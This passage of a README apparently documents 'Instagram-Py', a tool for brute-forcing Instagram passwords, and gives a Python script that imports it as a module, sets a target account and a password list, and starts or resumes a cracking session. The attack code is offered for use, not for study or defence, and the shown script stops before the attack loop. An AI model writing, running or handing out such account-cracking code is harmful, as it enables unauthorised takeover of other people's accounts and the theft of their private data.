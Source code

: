 Contribution
https://img.shields.io/github/contributors/deathsec/instagram-py.svg?style=flat-square

Contribute anything you can to this repo (Issues | Pull request) , help is much appreciated.

Please Refer CONTRIBUTING for more information on contributing!

Using Instagram-Py as API
Instagram-Py supports to be used as a module as of v1.3.2 , so you don't want to reproduce my code. Just use it!

For some reason you wish not to use my software then you can use my software as a module and embed into your own software , anyway its native so its just gonna run the same as the official command-line tool unless you do something crazy.

Follow the same installation method mentioned above to install Instagram-Py API.

This is a simple script to conduct a bructe force attack using instagram-py as a API.

#!/usr/bin/env python3
'''
  This is the same thing that is in the __init__ file of the command-line
  tool.
'''
from InstagramPy.InstagramPyCLI import InstagramPyCLI
from InstagramPy.InstagramPySession import InstagramPySession , DEFAULT_PATH
from InstagramPy.InstagramPyInstance import InstagramPyInstance
from datetime import datetime

username = "TARGET ACCOUNT USERNAME"
password = "PASSWORD LIST PATH"

appInfo = {
   "version"     : "0.0.1",
   "name"        : "Instagram-Py Clone",
   "description" : "Some Module to crack instagram!",
   "author"      : "YourName",
   "company"     : "YourCompany",
   "year"        : "2017",
   "example"     : ""
}

cli = InstagramPyCLI(appinfo = appInfo , started = datetime.now() , verbose_level = 3)

'''
# USE THIS IF YOU WANT
cli.PrintHeader()
cli.PrintDatetime()
'''
session = InstagramPySession(username , password , DEFAULT_PATH , DEFAULT_PATH , cli)
session.ReadSaveFile(True) # True to countinue attack if found save file.
'''
# USE THIS IF YOU WANT
cli.PrintMagicCookie(session.magic_cookie)
'''
